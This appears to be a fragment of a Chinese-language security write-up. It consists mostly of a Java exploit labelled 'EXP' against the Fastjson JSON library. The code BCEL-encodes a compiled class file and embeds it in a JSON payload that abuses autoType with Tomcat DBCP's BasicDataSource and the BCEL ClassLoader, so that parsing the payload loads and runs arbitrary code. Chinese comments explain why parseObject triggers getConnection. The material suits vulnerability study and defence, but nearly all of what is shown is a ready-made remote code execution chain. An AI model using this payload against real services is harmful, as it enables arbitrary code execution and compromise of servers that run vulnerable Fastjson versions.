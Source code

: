 ```plain
}
```

#### EXP：

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXPFastJson\\Demo.class");
        String code = Utility.encode(bytes,true);
//        classLoader.loadClass("$$BCEL$$"+code).newInstance();


//        BasicDataSource basicDataSource = new BasicDataSource();
//        basicDataSource.setDriverClassLoader(classLoader);
//        basicDataSource.setDriverClassName("$$BCEL$$"+code);
//        basicDataSource.getConnection();

        String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"DriverClassName\":\"$$BCEL$$"+ code +"\",\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";

//      parseObject是先parse后toJSON，这样我们才能调用get方法：getConnection()
        JSON.parseObject(s);
    }

    private static byte[] convert(String filePath) throws IOException {
        File file = new File(filePath);
        // 检查文件是否存在
        if (!file.exists()) {
            throw new FileNotFoundException("文件未找到：" + filePath);
        }
        // 将文件内容读取到字节数组中
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }

            return byteOutput.toByteArray();
        }
    }
}
```
